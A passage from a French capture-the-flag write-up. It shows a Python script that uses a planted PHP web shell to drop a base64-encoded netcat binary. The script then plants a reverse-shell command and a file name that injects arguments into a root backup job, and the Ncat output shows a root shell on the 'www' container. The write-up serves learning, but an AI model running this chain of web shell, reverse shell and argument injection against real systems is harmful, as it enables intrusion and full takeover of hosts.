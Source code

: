 ```python
                print("Oups, got error code", response.status_code)
                exit()

            if len(data) < 1024:
                break

    sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("base64 -d /tmp/devloop_nc.b64 > /tmp/devloop_nc"))
    sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("chmod +x /tmp/devloop_nc"))

response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("md5sum /tmp/devloop_nc"))
md5sum = md5_regex.search(response.text).group()
if md5sum != "43248ae1630f1e244fcec241ea5ad780":
    print(response.text)
    exit()

print("Great success")

sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("echo '/tmp/devloop_nc -e /bin/sh 172.19.0.4 7777 &' > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/devloop.rdb"))
sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("touch '/var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e sh devloop.rdb'"))
response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("ls -al /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/"))
print(response.text)
```

Ce script copie un netcat sous forme encodée (base64) vers */tmp* et insère la commande permettant de nous envoyer un reverse shell dans le fichier *rdb* (il faut donc avoir préalablement mis en écoute un ncat/netcat sur le container *Node* de tout à l'heure).  

On attend un peu que le script de backup soit exécuté :  

```plain
Ncat: Connection from 172.19.0.2.
Ncat: Connection from 172.19.0.2:43312.
id
uid=0(root) gid=0(root) groups=0(root)
hostname
www
```

Cool, maintenant on est root sur le container www ce qui nous permet d'accéder au flag de l'utilisateur *somaro* (c09aca7cb02... ) :)  

Bitterish
---------

Maintenant que l'on est root on peut explorer plus en détails le système, en particulier voir les interfaces réseau.  

Vu que *ifconfig* n'est pas présent sur le système et qu'on ne dispose pas ici d'un *Meterpreter* j'ai placé le script d'upload suivant sur le système :  
